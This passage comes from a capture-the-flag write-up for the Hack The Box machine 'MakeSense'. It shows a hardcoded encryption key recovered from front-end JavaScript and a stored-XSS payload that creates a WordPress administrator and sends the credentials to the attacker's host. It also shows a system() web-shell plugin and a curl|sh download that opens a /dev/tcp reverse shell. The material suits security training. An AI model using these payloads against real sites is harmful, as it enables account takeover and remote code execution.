[21:21:52] 301 -    0B  - /phpmyadmin1/index.php  ->  https://10.129.26.222/phpmyadmin1/
[21:21:52] 301 -    0B  - /phpMyAdmin/index.php  ->  https://10.129.26.222/phpMyAdmin/
[21:21:53] 301 -    0B  - /phpMyAdminold/index.php  ->  https://10.129.26.222/phpMyAdminold/
[21:21:53] 301 -    0B  - /phpmyadmin2/index.php  ->  https://10.129.26.222/phpmyadmin2/
[21:21:53] 301 -    0B  - /phpMyadmin_bak/index.php  ->  https://10.129.26.222/phpMyadmin_bak/
[21:21:57] 301 -    0B  - /PMA/index.php  ->  https://10.129.26.222/PMA/    
[21:21:57] 301 -    0B  - /PMA2/index.php  ->  https://10.129.26.222/PMA2/  
[21:21:57] 301 -    0B  - /pma/index.php  ->  https://10.129.26.222/pma/
[21:21:58] 301 -    0B  - /pmamy/index.php  ->  https://10.129.26.222/pmamy/
[21:21:58] 301 -    0B  - /pma-old/index.php  ->  https://10.129.26.222/pma-old/
[21:21:58] 301 -    0B  - /pmd/index.php  ->  https://10.129.26.222/pmd/    
[21:21:59] 301 -    0B  - /pmamy2/index.php  ->  https://10.129.26.222/pmamy2/
[21:22:11] 200 -    3KB - /readme.html                                      
[21:22:11] 301 -    0B  - /rating_over.  ->  https://10.129.26.222/rating_over/
[21:22:19] 301 -    0B  - /roundcube/index.php  ->  https://10.129.26.222/roundcube/
[21:22:21] 301 -  318B  - /scripts  ->  https://10.129.26.222/scripts/      
[21:22:21] 200 -  406B  - /scripts/                                         
[21:22:24] 403 -  279B  - /server-status                                    
[21:22:24] 403 -  279B  - /server-status/                                   
[21:22:31] 200 -    8KB - /show_image_NpAdvFeaThumb.php?cache=false&cat=1&filename=
[21:22:31] 200 -    8KB - /show_image_NpAdvSubFea.php?cache=false&cat=1&filename=
[21:22:31] 200 -    8KB - /show_image_NpAdvMainFea.php?cache=false&cat=1&filename=
[21:22:31] 200 -    8KB - /show_image_NpAdvSinglePhoto.php?cache=false&cat=1&filename=
[21:22:31] 200 -    8KB - /show_image_NpAdvMainPGThumb.php?cache=false&cat=1&filename=
[21:22:32] 200 -    8KB - /show_image_NpAdvInnerSmall.php?cache=false&cat=1&filename=
[21:22:32] 200 -    8KB - /show_image_NpAdvSideFea.php?cache=false&cat=1&filename=
[21:22:32] 200 -    8KB - /show_image_NpAdvSecondaryRight.php?cache=false&cat=1&filename=
[21:22:35] 301 -    0B  - /siteadmin/index.php  ->  https://10.129.26.222/siteadmin/
[21:22:40] 301 -    0B  - /sql/index.php  ->  https://10.129.26.222/sql/    
[21:22:47] 301 -    0B  - /static..  ->  https://10.129.26.222/static/      
[21:22:50] 301 -    0B  - /sugarcrm/index.php?module=Accounts&action=ShowDuplicates  ->  https://10.129.26.222/sugarcrm/?module=Accounts&action=ShowDuplicates
[21:22:51] 301 -    0B  - /sugarcrm/index.php?module=Contacts&action=ShowDuplicates  ->  https://10.129.26.222/sugarcrm/?module=Contacts&action=ShowDuplicates
[21:22:59] 301 -    0B  - /templates/beez/index.php  ->  https://10.129.26.222/templates/beez/
[21:22:59] 301 -    0B  - /templates/ja-helio-farsi/index.php  ->  https://10.129.26.222/templates/ja-helio-farsi/
[21:22:59] 301 -    0B  - /templates/rhuk_milkyway/index.php  ->  https://10.129.26.222/templates/rhuk_milkyway/
[21:23:08] 301 -    0B  - /tmp/index.php  ->  https://10.129.26.222/tmp/    
[21:23:08] 301 -    0B  - /tools/phpMyAdmin/index.php  ->  https://10.129.26.222/tools/phpMyAdmin/
[21:23:09] 301 -    0B  - /Trace.axd::$DATA  ->  https://10.129.26.222/Trace.axd::DATA/
[21:23:11] 301 -    0B  - /typo3/phpmyadmin/index.php  ->  https://10.129.26.222/typo3/phpmyadmin/
[21:23:32] 301 -    0B  - /web.config::$DATA  ->  https://10.129.26.222/web.config::DATA/
[21:23:32] 301 -    0B  - /webadmin/index.php  ->  https://10.129.26.222/webadmin/
[21:23:32] 301 -    0B  - /web/phpMyAdmin/index.php  ->  https://10.129.26.222/web/phpMyAdmin/
[21:23:37] 302 -    0B  - /wp-admin/  ->  https://makesense.htb/wp-login.php?redirect_to=https%3A%2F%2F10.129.26.222%2Fwp-admin%2F&reauth=1
[21:23:37] 400 -    1B  - /wp-admin/admin-ajax.php                          
[21:23:37] 301 -  319B  - /wp-admin  ->  https://10.129.26.222/wp-admin/    
[21:23:37] 200 -    0B  - /wp-config.php                                    
[21:23:37] 409 -    3KB - /wp-admin/setup-config.php                        
[21:23:38] 301 -  321B  - /wp-content  ->  https://10.129.26.222/wp-content/
[21:23:38] 200 -    0B  - /wp-content/
[21:23:38] 200 -  533B  - /wp-admin/install.php                             
[21:23:39] 403 -  279B  - /wp-content/plugins/akismet/akismet.php           
[21:23:40] 200 -  457B  - /wp-content/uploads/                              
[21:23:40] 301 -    0B  - /wp-content/plugins/adminer/inc/editor/index.php  ->  https://10.129.26.222/wp-content/plugins/adminer/inc/editor/
[21:23:40] 200 -  416B  - /wp-content/upgrade/                              
[21:23:40] 403 -  279B  - /wp-content/plugins/akismet/admin.php             
[21:23:40] 200 -    0B  - /wp-content/plugins/hello.php
[21:23:40] 301 -  322B  - /wp-includes  ->  https://10.129.26.222/wp-includes/
[21:23:40] 200 -    0B  - /wp-cron.php                                      
[21:23:41] 200 -    4KB - /wp-includes/                                     
[21:23:41] 200 -    0B  - /wp-includes/rss-functions.php                    
[21:23:43] 200 -    2KB - /wp-login.php                                     
[21:23:44] 302 -    0B  - /wp-signup.php  ->  https://makesense.htb/wp-login.php?action=register
[21:23:44] 301 -    0B  - /www/phpMyAdmin/index.php  ->  https://10.129.26.222/www/phpMyAdmin/
[21:23:46] 301 -    0B  - /xampp/phpmyadmin/index.php  ->  https://10.129.26.222/xampp/phpmyadmin/
[21:23:46] 405 -   42B  - /xmlrpc.php
                                                                             
Task Completed
```

Opening one of the image helper endpoints in the browser triggered a browser error related to the speech transcription component.

- [https://10.129.26.222/show_image_NpAdvCatPG.php?cache=false&cat=1&filename=](https://10.129.26.222/show_image_NpAdvCatPG.php?cache=false&cat=1&filename=)


The browser error disclosed the exact location of the local JavaScript and AI model files used by the page.

```shell
Failed to initialize voice transcription: Failed to load Transformers.js: Failed to fetch dynamically imported module: https://makesense.htb/wp-content/ai-models/transformers/transformers.js
```

The directory listing under the AI model path showed that browser-based machine learning assets were being served directly from the WordPress installation.

- [https://makesense.htb/wp-content/ai-models/transformers/](https://makesense.htb/wp-content/ai-models/transformers/)


Two model directories were visible.

- distilbart-cnn-12-6
- whisper-tiny.en

The summarization model configuration confirmed that the application used browser-side transformer models rather than forwarding raw voice input directly to an external service.

**config.json**

```json
{
  "_name_or_path": "sshleifer/distilbart-cnn-12-6",
  "_num_labels": 3,
  "activation_dropout": 0.0,
  "activation_function": "gelu",
  "add_bias_logits": false,
  "add_final_layer_norm": false,
  "architectures": [
    "BartForConditionalGeneration"
  ],
  "attention_dropout": 0.0,
  "bos_token_id": 0,
  "classif_dropout": 0.0,
  "classifier_dropout": 0.0,
  "d_model": 1024,
  "decoder_attention_heads": 16,
  "decoder_ffn_dim": 4096,
  "decoder_layerdrop": 0.0,
  "decoder_layers": 6,
  "decoder_start_token_id": 2,
  "dropout": 0.1,
  "early_stopping": true,
  "encoder_attention_heads": 16,
  "encoder_ffn_dim": 4096,
  "encoder_layerdrop": 0.0,
  "encoder_layers": 12,
  "eos_token_id": 2,
  "extra_pos_embeddings": 2,
  "force_bos_token_to_be_generated": true,
  "forced_bos_token_id": 0,
  "forced_eos_token_id": 2,
  "gradient_checkpointing": false,
  "id2label": {
    "0": "LABEL_0",
    "1": "LABEL_1",
    "2": "LABEL_2"
  },
  "init_std": 0.02,
  "is_encoder_decoder": true,
  "label2id": {
    "LABEL_0": 0,
    "LABEL_1": 1,
    "LABEL_2": 2
  },
  "length_penalty": 2.0,
  "max_length": 142,
  "max_position_embeddings": 1024,
  "min_length": 56,
  "model_type": "bart",
  "no_repeat_ngram_size": 3,
  "normalize_before": false,
  "normalize_embedding": true,
  "num_beams": 4,
  "num_hidden_layers": 12,
  "output_past": true,
  "pad_token_id": 1,
  "prefix": " ",
  "replacing_rate": 0,
  "scale_embedding": false,
  "static_position_embeddings": false,
  "student_decoder_layers": null,
  "student_encoder_layers": null,
  "task_specific_params": {
    "summarization": {
      "early_stopping": true,
      "length_penalty": 2.0,
      "max_length": 142,
      "min_length": 56,
      "no_repeat_ngram_size": 3,
      "num_beams": 4
    }
  },
  "transformers_version": "4.34.0.dev0",
  "use_cache": true,
  "vocab_size": 50264
}
```

### Front-End AI Model and JavaScript Enumeration

Because the site used custom JavaScript for voice handling, the next step was to collect all linked JavaScript files from the page for offline review.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export URL='https://makesense.htb'
```

A local directory was created to store the downloaded JavaScript files.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ mkdir -p js
```

The page source was parsed for JavaScript references, and each file was downloaded into the local `js` directory.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ curl -sk "$URL/" | grep -Eoi 'src="[^"]+\.js[^"]*"' | cut -d'"' -f2 | sed -E "s#^//#https://#; s#^/#$URL/#" | sort -u | while read js; do out="js/$(echo "$js" | sed 's#[/:?&=]#_#g')"; echo "[+] $js -> $out"; curl -sk "$js" -o "$out"; done
[+] https://cdn.jsdelivr.net/npm/swiper@8/swiper-bundle.min.js?ver=8.0 -> js/https___cdn.jsdelivr.net_npm_swiper@8_swiper-bundle.min.js_ver_8.0
[+] https://makesense.htb/wp-content/themes/webagency/assets/js/main.js?ver=1.0 -> js/https___makesense.htb_wp-content_themes_webagency_assets_js_main.js_ver_1.0
[+] https://makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js?ver=1.0 -> js/https___makesense.htb_wp-content_themes_webagency_assets_js_whisper_whisper-wrapper.js_ver_1.0
[+] https://makesense.htb/wp-includes/js/jquery/jquery-migrate.min.js?ver=3.4.1 -> js/https___makesense.htb_wp-includes_js_jquery_jquery-migrate.min.js_ver_3.4.1
[+] https://makesense.htb/wp-includes/js/jquery/jquery.min.js?ver=3.7.1 -> js/https___makesense.htb_wp-includes_js_jquery_jquery.min.js_ver_3.7.1
```

The downloaded files included the custom theme logic and a dedicated `whisper-wrapper.js` file, which was the most relevant file for the voice transcription workflow.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ ls -la js                
total 292
drwxrwxr-x 1 kali kali    754 Jul  4 21:40 .
drwxrwxr-x 1 kali kali      4 Jul  4 21:39 ..
-rw-rw-r-- 1 kali kali 143706 Jul  4 21:39 https___cdn.jsdelivr.net_npm_swiper@8_swiper-bundle.min.js_ver_8.0
-rw-rw-r-- 1 kali kali  21554 Jul  4 21:39 https___makesense.htb_wp-content_themes_webagency_assets_js_main.js_ver_1.0
-rw-rw-r-- 1 kali kali  19944 Jul  4 21:39 https___makesense.htb_wp-content_themes_webagency_assets_js_whisper_whisper-wrapper.js_ver_1.0
-rw-rw-r-- 1 kali kali  13577 Jul  4 21:40 https___makesense.htb_wp-includes_js_jquery_jquery-migrate.min.js_ver_3.4.1
-rw-rw-r-- 1 kali kali  87553 Jul  4 21:40 https___makesense.htb_wp-includes_js_jquery_jquery.min.js_ver_3.7.1
```

## Initial Access

### Recovering the Front-End Encryption Key

Keyword searches across the downloaded JavaScript files were used to identify security-relevant front-end logic. The search focused on encryption, AJAX calls, nonces, transcription handlers and message-related fields.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ grep -RinaE 'voice|speech|whisper|transcrib|encrypt|decrypt|crypto|CryptoJS|AES|key|iv|admin-ajax|wp-json|nonce|fetch|XMLHttpRequest|less-than|greater-than|quote|symbol|message' js/
<--- CUT FOR BREVITY --->
```

The custom wrapper exposed a hardcoded encryption key. This was a critical finding because any encryption performed entirely in front-end JavaScript with a public key cannot protect integrity or confidentiality from an attacker who can read the JavaScript.

```shell
<--- CUT FOR BREVITY --->
js/https___makesense.htb_wp-content_themes_webagency_assets_js_whisper_whisper-wrapper.js_ver_1.0:7:const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
<--- CUT FOR BREVITY --->
```

| Encryption Key                       |
| ------------------------------------ |
| bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI |

The wrapper file was assigned to a variable for focused inspection.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ WRAP='js/https___makesense.htb_wp-content_themes_webagency_assets_js_whisper_whisper-wrapper.js_ver_1.0'
```

The relevant lines showed that the key was hashed with `SHA-256`, imported as an `AES-GCM` key, and used to encrypt a JSON payload before submission.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ grep -nE 'ENCRYPTION_KEY|encrypt|decrypt|CryptoJS|AES|subtle|iv|fetch|admin-ajax|wp-json|action|nonce|transcrib|message|symbol|less|greater|quote' "$WRAP"
6:// Symmetric encryption key (must match server-side)
7:const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
24:        this.nativeSampleRate = 48000;
103:            if (onLog) onLog('Error loading Transformers.js: ' + error.message);
104:            throw new Error('Failed to load Transformers.js: ' + error.message);
146:            if (onLog) onLog('Error loading model: ' + error.message);
173:        // Create AudioContext at native sample rate
175:        this.nativeSampleRate = this.audioContext.sampleRate;
177:        if (onLog) onLog(`AudioContext created: ${this.nativeSampleRate}Hz`);
190:        this.recorderNode.port.onmessage = (e) => {
234:        if (onLog) onLog(`Recording stopped: ${mergedBuffer.length} samples at ${this.nativeSampleRate}Hz (${(mergedBuffer.length / this.nativeSampleRate).toFixed(2)}s)`);
304:    async transcribeBuffer(audioData, language = 'en', onLog) {
309:        const duration = audioData.length / this.nativeSampleRate;
314:            const wavBlob = this.floatArrayToWav(audioData, this.nativeSampleRate);
345:            if (onLog) onLog('Transcription error: ' + error.message);
353:    async transcribe(audioBlob, language = 'en', onLog) {
371:            if (onLog) onLog('Transcription error: ' + error.message);
414:            if (onLog) onLog('Error loading summarization model: ' + error.message);
454:            if (onLog) onLog('Summarization error: ' + error.message);
460:     * Encrypt payload using AES-GCM
462:     * @returns {Promise<string>} Base64 encoded encrypted data (IV + ciphertext + tag)
464:    async encryptPayload(payload) {
468:        // Derive key from password using SHA-256
469:        const keyMaterial = await crypto.subtle.digest(
471:            encoder.encode(ENCRYPTION_KEY)
474:        const key = await crypto.subtle.importKey(
477:            { name: 'AES-GCM' },
479:            ['encrypt']
482:        // Generate random IV (12 bytes for AES-GCM)
483:        const iv = crypto.getRandomValues(new Uint8Array(12));
486:        const encrypted = await crypto.subtle.encrypt(
487:            { name: 'AES-GCM', iv: iv },
493:        const combined = new Uint8Array(iv.length + encrypted.byteLength);
494:        combined.set(iv, 0);
495:        combined.set(new Uint8Array(encrypted), iv.length);
504:     * Map spoken words to their symbol equivalents for XSS injection
506:     * @returns {string} Text with symbols replaced
517:            'quote': "'",
518:            'double quote': '"',
557:        // Clean up spaces around symbols that might have been introduced by transcription
```

The presence of `Map spoken words to their symbol equivalents for XSS injection` in the front-end comments was especially notable. It showed that the application explicitly handled transcription-to-symbol conversion, increasing confidence that transcribed or summarized content might later be rendered into an HTML context.

### Reproducing the Voice Result Encryption Workflow

To generate valid encrypted payloads without using the browser, the encryption routine from the front-end JavaScript was reproduced in Node.js. The script mirrored the application behavior by hashing the hardcoded key with `SHA-256`, importing it as an `AES-GCM` key, prepending the 12-byte IV to the ciphertext, and base64-encoding the combined result.

**encrypt-object.js**

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ cat encrypt-object.js          
const { webcrypto } = require('crypto');

const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';

async function encryptPayload(payloadObject) {
  const encoder = new TextEncoder();
  const data = encoder.encode(JSON.stringify(payloadObject));

  const keyMaterial = await webcrypto.subtle.digest(
    'SHA-256',
    encoder.encode(ENCRYPTION_KEY)
  );

  const key = await webcrypto.subtle.importKey(
    'raw',
    keyMaterial,
    { name: 'AES-GCM' },
    false,
    ['encrypt']
  );

  const iv = webcrypto.getRandomValues(new Uint8Array(12));

  const encrypted = await webcrypto.subtle.encrypt(
    { name: 'AES-GCM', iv },
    key,
    data
  );

  const combined = new Uint8Array(iv.length + encrypted.byteLength);
  combined.set(iv, 0);
  combined.set(new Uint8Array(encrypted), iv.length);

  return Buffer.from(combined).toString('base64');
}

(async () => {
  if (process.argv.length < 3) {
    console.error(`Usage: node encrypt-object.js '{"transcription":"test","summary":"test"}'`);
    process.exit(1);
  }

  let payload;
  try {
    payload = JSON.parse(process.argv[2]);
  } catch (e) {
    console.error('Invalid JSON:', e.message);
    process.exit(1);
  }

  console.log(await encryptPayload(payload));
})();
```

The attack host was exported as `LHOST` so payload callbacks could be directed to the correct address.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export LHOST=10.10.16.240
```

A simple image-based `Cross-Site Scripting` (`XSS`) payload was generated first to validate whether stored voice result fields were rendered unsafely.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ PAYLOAD=""
```

The payload was encrypted into every likely text field used by the application. Populating multiple synonymous fields increased the chance of hitting whichever field the server later rendered.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ node encrypt-object.js "$(jq -nc --arg p "$PAYLOAD" '{transcription:$p, transcript:$p, text:$p, message:$p, summary:$p}')"
KZ7SzmF4gRfkD5i6WgfJxxkA543mwTo0aN8l1m6owbapHq1pC6w24WjkTxcdzrsd5o0FDwh6GVxZ/HbDRzHnsVG2y+QyEAxFu8z4AvzTiV1sX0IaUNRMcuu1/jrPgagnOAjUstslT7ZX16cylPPCI6aPwfgXvrgmPN0aCSsZlYRpUd0KnXpy7J8jPUbD3Mawl9bD8bzEIn1afym1rI+lEZVT60ksJEI7P2RrLvCAh4NH+jTu5Tv3jd12MAnOH23VUdA2ZbhelnRwmPs5efcFND1c2PD2hmA35Hwy3GgYA3zYlNx9C3VFms/AvIZHJpbTw7PvzOSABFaJ4OCiz+KjVPFfkv/3f3oyeFKshyT8JLrnRILGPxOq+nUKfoDytO3Do/vPJgaoyc2FSNjF8gxSpMDmxcRp/pTjiERsJCFAezdg01pzDTl1BbxBTLDLCQrRKy+JQTYqYh3awjL9WETCrrISbd9nfLK1CjIZaEFl7LaRocubVMdPwA1CDWK+MLexMaPKifXoJvJC0g63Z0S34A/ZmFRquSxvWfMu6TxYmc0PQSnTr2ClLmsvIvszrRpmlgB0GeMQwVFFevQsMx9HXvWvTeh5Kiq9DZfw2hxu6MfJ37qndsUHWUBR9Kt2Rt+MF81M2rWKonfgW/vjo10jt2ql+mh73w4NTdYzWFzKTNIFMSuGj8uiFQjxNlxQwdhx2bK9AXepaIrYjaTPgsp6b3TmMBe4HlX/qIHUdDTd1fCFLAJGTQ==
```

The page also exposed a WordPress AJAX configuration object containing the AJAX endpoint and nonce required by the voice submission handlers.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export URL='https://makesense.htb'
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export LHOST='10.10.16.240'
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ curl -sk "$URL/" | grep -oP 'var webagency_ajax = \K\{.*?\};' | sed 's/;$//' | jq
{
  "ajax_url": "https://makesense.htb/wp-admin/admin-ajax.php",
  "nonce": "85e6eda673",
  "theme_url": "https://makesense.htb/wp-content/themes/webagency",
  "site_url": "https://makesense.htb"
}
```

The extracted values were stored as environment variables for repeated submissions.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export AJAX_URL='https://makesense.htb/wp-admin/admin-ajax.php'
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export NONCE='85e6eda673'
```

The voice workflow required an initial audio upload, so a minimal silent WAV file was generated.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ python3 - <<'PY'
import wave, struct

with wave.open('/tmp/voice-message.wav', 'wb') as w:
    w.setnchannels(1)
    w.setsampwidth(2)
    w.setframerate(16000)
    for _ in range(16000):
        w.writeframes(struct.pack('<h', 0))
PY
```

The file command confirmed a valid mono WAV file suitable for upload.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ file /tmp/voice-message.wav 
/tmp/voice-message.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 16000 Hz
```

Submitting the audio to `save_voice_raw` created a new WordPress post for the voice result.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ curl -sk "$AJAX_URL" -X POST -F "action=save_voice_raw" -F "nonce=$NONCE" -F "voice_recording=@/tmp/voice-message.wav;type=audio/wav" | tee /tmp/save_voice_raw.json
{"success":true,"data":{"message":"Audio saved, processing started.","post_id":69}}
```

The returned `post_id` was the object later updated with encrypted transcription and summary results.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ cat /tmp/save_voice_raw.json | jq
{
  "success": true,
  "data": {
    "message": "Audio saved, processing started.",
    "post_id": 69
  }
}
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ export POST_ID='69'
```

The encrypted result was then submitted to `save_voice_results`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ curl -sk "$AJAX_URL" \
  -X POST \
  -F "action=save_voice_results" \
  -F "nonce=$NONCE" \
  -F "post_id=$POST_ID" \
  -F "encrypted_payload=$ENC"
{"success":true,"data":{"message":"Results saved successfully!","post_id":69}}
```

### Stored Cross-Site Scripting (XSS) through Encrypted Voice Results

A fresh voice result was created for the actual administrator-targeted payload.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ curl -sk "$AJAX_URL" -X POST -F "action=save_voice_raw" -F "nonce=$NONCE" -F "voice_recording=@/tmp/voice-message.wav;type=audio/wav" | tee /tmp/save_voice_raw.json
{"success":true,"data":{"message":"Audio saved, processing started.","post_id":71}}
```

The new `post_id` was extracted from the JSON response.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ POST_ID=$(jq -r '.data.post_id' /tmp/save_voice_raw.json)
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ echo "$POST_ID"
71
```

### WordPress Administrator Account Creation

The `Cross-Site Scripting` (`XSS`) payload was designed to execute in an administrator's browser session. It requested `/wp-admin/user-new.php`, parsed the user-creation nonce from the response, and submitted a form-encoded request to create a new administrator account. Because the payload ran inside the administrator's authenticated browser context, it inherited the administrator's cookies and CSRF-valid session state.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ python3 - <<PY > /tmp/admin_xss.txt
import base64, os

lhost = os.environ["LHOST"]

js = f"""(async()=>{{
try {{
  const u='audit'+Math.floor(Math.random()*99999);
  const p='P@ssw0rd123!';
  const r=await fetch('/wp-admin/user-new.php',{{credentials:'include'}});
  const t=await r.text();
  const d=new DOMParser().parseFromString(t,'text/html');
  const n=d.querySelector('input[name="_wpnonce_create-user"]')?.value;
  if(!n){{await fetch('http://{lhost}:8000/no_nonce?u='+encodeURIComponent(location.href));return;}}
  const b=new URLSearchParams({{
    action:'createuser',
    '_wpnonce_create-user':n,
    '_wp_http_referer':'/wp-admin/user-new.php',
    user_login:u,
    email:u+'@makesense.htb',
    first_name:'audit',
    last_name:'user',
    url:'',
    pass1:p,
    pass2:p,
    role:'administrator',
    createuser:'Add New User'
  }});
  const res=await fetch('/wp-admin/user-new.php',{{method:'POST',credentials:'include',headers:{{'Content-Type':'application/x-www-form-urlencoded'}},body:b}});
  const body=await res.text();
  await fetch('http://{lhost}:8000/created?u='+encodeURIComponent(u)+'&p='+encodeURIComponent(p)+'&status='+res.status+'&len='+body.length);
}} catch(e) {{
  await fetch('http://{lhost}:8000/error?m='+encodeURIComponent(e.message));
}}
}})()"""

print('')
PY
```

The generated payload was loaded into a shell variable.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ XSS=$(cat /tmp/admin_xss.txt)
```

The payload was encrypted with the recovered front-end key and formatted as the expected encrypted voice result.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ ENC=$(node encrypt-object.js "$(jq -nc --arg p "$XSS" '{transcription:$p,summary:$p}')")
```

The encrypted `Cross-Site Scripting` (`XSS`) payload was written into the previously created voice result.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ curl -sk "$AJAX_URL" -X POST -F "action=save_voice_results" -F "nonce=$NONCE" -F "post_id=$POST_ID" --form-string "encrypted_payload=$ENC"
{"success":true,"data":{"message":"Results saved successfully!","post_id":71}}
```

A simple HTTP server was started to capture the callback from the administrator's browser once the stored `Cross-Site Scripting` (`XSS`) executed.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.26.222 - - [04/Jul/2026 22:05:31] code 404, message File not found
10.129.26.222 - - [04/Jul/2026 22:05:31] "GET /created?u=audit9500&p=P%40ssw0rd123! HTTP/1.1" 404 -
10.129.26.222 - - [04/Jul/2026 22:05:31] code 404, message File not found
10.129.26.222 - - [04/Jul/2026 22:05:31] "GET /created?u=audit30595&p=P%40ssw0rd123! HTTP/1.1" 404 -
10.129.26.222 - - [04/Jul/2026 22:06:29] code 404, message File not found
```

The callback confirmed successful administrator creation. Although two callbacks were received, one set of credentials was enough to continue.

| Username  | Password     |
| --------- | ------------ |
| audit9500 | P@ssw0rd123! |

The newly created administrator account allowed access to the WordPress dashboard.

- [https://makesense.htb/](https://makesense.htb/)



### WordPress Plugin Upload to Remote Code Execution

With administrator access to WordPress, the most direct route to code execution was plugin upload. A minimal plugin was created that executed the value of the `c` request parameter with `system()`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ mkdir shell-plugin/
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ cat > shell-plugin/shell-plugin.php <<'EOF'
<?php
/*
Plugin Name: Shell Plugin
Version: 1.0
*/
if (isset($_REQUEST['c'])) {
    system($_REQUEST['c']);
}
EOF
```

The plugin directory was packaged as a ZIP archive so it could be uploaded through the WordPress plugin installer.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/files]
└─$ zip -r shell-plugin.zip shell-plugin
  adding: shell-plugin/ (stored 0%)
  adding: shell-plugin/shell-plugin.php (deflated 16%)
```

The malicious plugin was uploaded through the administrator interface.

- [https://makesense.htb/wp-admin/plugin-install.php?tab=upload](https://makesense.htb/wp-admin/plugin-install.php?tab=upload)



After upload, the plugin was activated to make the PHP endpoint reachable under `wp-content/plugins`.





The command execution primitive was validated with `id`, confirming code execution as the web server user.

```shell
┌──(kali㉿kali)-[~]
└─$ curl -sk 'https://makesense.htb/wp-content/plugins/shell-plugin/shell-plugin.php?c=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell as www-data

To continue enumeration more comfortably, a Bash reverse shell payload was prepared on the attack host.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ cat x                                      
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.240/9001 0>&1'
```

The payload was served over HTTP.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The web shell was instructed to download and execute the payload.

```shell
┌──(kali㉿kali)-[~]
└─$ curl -sk 'https://makesense.htb/wp-content/plugins/shell-plugin/shell-plugin.php?c=curl%2010.10.16.240/x|sh'
```

A reverse shell connected back to the listener as `www-data`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.240] from (UNKNOWN) [10.129.26.222] 43192
bash: cannot set terminal process group (1331): Inappropriate ioctl for device
bash: no job control in this shell
www-data@makesense:/var/www/html/wp-content/plugins/shell-plugin$
```

The shell was upgraded with a Python PTY and local terminal settings were restored for interactive use.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.240] from (UNKNOWN) [10.129.26.222] 43192
bash: cannot set terminal process group (1331): Inappropriate ioctl for device
bash: no job control in this shell
www-data@makesense:/var/www/html/wp-content/plugins/shell-plugin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<gin$ python3 -c 'import pty;pty.spawn("/bin/bash")'              
www-data@makesense:/var/www/html/wp-content/plugins/shell-plugin$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg                                      
[1]  + continued  nc -lnvp 9001

www-data@makesense:/var/www/html/wp-content/plugins/shell-plugin$                
<p-content/plugins/shell-plugin$ export XTERM=xterm               
www-data@makesense:/var/www/html/wp-content/plugins/shell-plugin$
```

## Enumeration (www-data)

